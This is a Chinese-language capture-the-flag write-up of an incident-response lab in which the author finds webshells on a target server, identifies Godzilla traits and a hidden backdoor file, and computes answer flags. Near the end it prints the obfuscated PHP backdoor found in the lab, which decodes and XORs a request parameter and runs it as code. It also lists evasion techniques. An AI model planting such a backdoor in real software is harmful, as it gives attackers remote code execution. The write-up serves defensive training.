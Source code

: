 ```yaml
---
title: 玄机-webshell查杀
date: 2024-11-17 22:47:15
permalink: /pages/a0b4dd/
author: 
  name: the0n3
  link: https://the0n3.top
---
```

靶机账号密码 root xjwebshell

- 1.黑客webshell里面的flag flag{xxxxx-xxxx-xxxx-xxxx-xxxx}
- 2.黑客使用的什么工具的shell github地址的md5 flag{md5}
- 3.黑客隐藏shell的完整路径的md5 flag{md5} 注 : /xxx/xxx/xxx/xxx/xxx.xxx
- 4.黑客免杀马完整路径 md5 flag{md5}


可以使用xftp，xshell这些成熟工具连接靶机，操作方便


命令行ssh连接靶机，tar命令打包网站目录，scp命令把网站源码下载到本地

```bash
ssh root@ip
# yes,输入密码，默认输入不显示
cd /var/www/html
tar -czvf www.tar.gz -C /var/www/html .
```

windows本地下载靶机里打包好的源码，解压，使用D盾扫描一下，重点关注这些webshell

```bash
scp root@161.189.226.230:/var/www/html/www.tar.gz .
```

D盾扫一下，重点关注这些webshell，在include/gz.php中找到flag格式字符串

![1](https://the0n3.top/medias/xj-webshell/1.png)

![2](https://the0n3.top/medias/xj-webshell/2.png)

也可以使用`grep`命令通过`-E`参数正则匹配webshell里的flag，太香了。想学linux三剑客！

```bash
cat *.php | grep -o -E ".{1,5}-.{1,4}-.{1,4}-.{1,5}"
cat */*.php | grep -o -E ".{1,5}-.{1,4}-.{1,4}-.{1,4}-.{1,5}"
```

关于黑客使用的什么webshell工具

跟踪D盾扫描的记录，在`gz.php`,`include/Db/.Mysqli.php`都出现了`getBasicsInfo`，这也算是是`哥斯拉`的一个典型特征吧

![4](https://the0n3.top/medias/xj-webshell/4.png)

以及文件开头的隐藏行为

```php
@session_start(); - 开启一个会话。
@set_time_limit(0); - 设置脚本执行时间为无限。
@error_reporting(0); - 关闭所有错误报告。
```

[哥斯拉项目地址](https://github.com/BeichenDream/Godzilla)

```bash
php -a
echo md5('https://github.com/BeichenDream/Godzilla');
```

关于隐藏shell的完整路径的md5，在linux里，文件名以`.`开头是隐藏文件，那么这个隐藏shell还是`include/Db/.Mysqli.php`，完整路径就是`/var/www/html/include/Db/.Mysqli.php`

```bash
php -a
echo md5('/var/www/html/include/Db/.Mysqli.php');
```

最后，哪个是免杀马？免杀是什么？

> 免杀：免杀（也叫 绕过杀软 或 绕过检测）是指恶意软件、木马、病毒或攻击代码通过某些技术手段避免被常见的安全防护软件（如杀毒软件、入侵检测系统、入侵防御系统、Web应用防火墙等）检测到或阻止。

一些常见手段：

- 代码加密和混淆
- 动态加载或执行
- 特征伪装
- 错误抑制和日志隐藏
- 自我修改和变异

在`include/wap/top.php`的源码中，存在动态构造后门和编码的过程，可以认为是免杀马

![5](https://the0n3.top/medias/xj-webshell/5.png)

```php
<?php
$key = "password";
//ERsDHgEUC1hI
$fun = base64_decode($_GET['func']);
for($i=0;$i<strlen($fun);$i++){
    $fun[$i] = $fun[$i]^$key[$i+1&7];
}
$a = "a";
$s = "s";
$c=$a.$s.$_GET["func2"];
$c($fun);
```

参考、致谢：

- [玄机第一章 应急响应-webshell查杀](https://baozongwi.xyz/2024/10/24/%E7%8E%84%E6%9C%BA%E7%AC%AC%E4%B8%80%E7%AB%A0-%E5%BA%94%E6%80%A5%E5%93%8D%E5%BA%94-webshell%E6%9F%A5%E6%9D%80/)
- [玄机——第一章 应急响应-webshell查杀 wp（手把手保姆级教学）](https://blog.csdn.net/administratorlws/article/details/139521078)